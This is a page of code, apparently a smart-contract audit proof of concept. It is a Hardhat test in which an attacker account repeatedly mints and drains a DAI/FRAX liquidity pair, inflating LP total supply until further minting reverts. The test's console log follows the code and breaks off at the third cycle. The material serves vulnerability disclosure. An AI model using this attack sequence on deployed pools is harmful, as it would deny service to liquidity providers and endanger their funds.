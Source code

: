```
            console.log("  Called drainPair.");

            const pairTokenABalance = await tokenA.balanceOf(pair.address);
            const pairTokenBBalance = await tokenB.balanceOf(pair.address);
            console.log(`  Pair ${await tokenA.symbol()} balance after drain: ${pairTokenABalance.toString()}`);
            console.log(`  Pair ${await tokenB.symbol()} balance after drain: ${pairTokenBBalance.toString()}`);

            // Assertions based on PoC logs (DAI balance: 1, FRAX balance: 2)
            // Token A (e.g. DAI if token0) should be 1
            // Token B (e.g. FRAX if token1) should be 2
            if (tokenA.address === await pair.token0()) {
                expect(pairTokenABalance).to.equal(1, `Cycle ${i+1}: ${await tokenA.symbol()} balance in pair should be 1 after drain`);
                expect(pairTokenBBalance).to.equal(2, `Cycle ${i+1}: ${await tokenB.symbol()} balance in pair should be 2 after drain`);
            } else { // tokenB is token0
                expect(pairTokenBBalance).to.equal(1, `Cycle ${i+1}: ${await tokenB.symbol()} balance in pair should be 1 after drain`);
                expect(pairTokenABalance).to.equal(2, `Cycle ${i+1}: ${await tokenA.symbol()} balance in pair should be 2 after drain`);
            }
        }

        console.log("\nAttempting final mint which should fail...");
        // Last attempt to mint after inflating totalSupply
        await tokenA.connect(attacker).transfer(pair.address, MINT_AMOUNT);
        await tokenB.connect(attacker).transfer(pair.address, MINT_AMOUNT);

        await expect(
            pair.connect(attacker).mint(attacker.address)
        ).to.be.reverted; // PoC expects revert, likely due to overflow or ILM with huge totalSupply

        console.log("\nTest finished: Successfully demonstrated vulnerability and final mint reverted.");
    });
});
```


```

Pair Vulnerability Test (First Liquidity Provider DOS)
Pair Address: 0x0CECE5951F0aa1b0916435405acEC8dB1fD49Ef9
Token0: 0x5FbDB2315678afecb367f032d93F642f64180aa3 (DAI)
Token1: 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512 (FRAX)

Cycle 1/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 9999000, Pair TotalSupply: 10000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 2/11
  Transferred 10000000 of DAI and FRAX to pair.
  Minted LP. Attacker LP Balance: 50000009999000, Pair TotalSupply: 50000010000000
  Called drainPair.
  Pair DAI balance after drain: 1
  Pair FRAX balance after drain: 2

Cycle 3/11
```